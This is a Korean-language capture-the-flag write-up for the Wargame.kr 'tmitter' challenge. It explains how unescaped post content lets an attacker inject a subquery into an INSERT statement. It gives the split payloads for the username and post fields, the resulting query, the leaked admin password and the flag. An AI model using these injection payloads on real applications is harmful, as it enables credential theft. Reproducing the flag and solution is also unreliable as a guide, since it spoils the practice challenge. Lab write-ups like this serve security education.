 # [Wargame.kr] tmitter - Writeup

## SQL Injection

가입과 로그인시에는 escape를 해서 SQL Injection가 통하지 않지만, 글을 쓸때에는 통한다.

고로 글을 쓸때 서브쿼리를 이용한 SQL Injection로 패스워드를 알아내면 됩니다.

```
INSERT INTO table(아이디,글,뭘까) VALUES('아이디','글','뭘까')
```

글을 쓸때는 위와 같은 `INSERT` 문을 쓸테니 싱글쿼터를 닫고 콤마(,)를 찍어주는게 포인트!


우선 `id`를 `',(select ps from tmitter_user/*` 로 가입한다.

(글자수 제한이 있으므로 주석을 이용해야한다.)


내용을 `*/where id='admin'),123)#`으로 글을 쓰면,

```
INSERT INTO table(아이디,글,뭘까) VALUES('',(select ps from tmitter_user/*','*/where id='admin'),123)#','뭘까')
```
위와 같은 형태로 쿼리가 형성된다.

```
{
    아이디 : 비어있음.

    글 : 서브쿼리로 인해 id가 'admin'인 유저의 패스워드가 출력.

    뭘까 : 대충 넣은 123.
}
```
이때 테이블에는 위와 같이 `INSERT` 된다.


결과적으로 인젝션이 성공해서 `iD0nTkn0wpassw0rd..!!`라고 admin 계정의 패스워드가 고스란히 출력된다.

위 패스워드로 로그인해보면 글 쓰는 텍스트 박스에 flag가 나온다.

___

## Answer

flag: `95a730da872ac03dc9dc7a04c7b0e65b808ce2b1`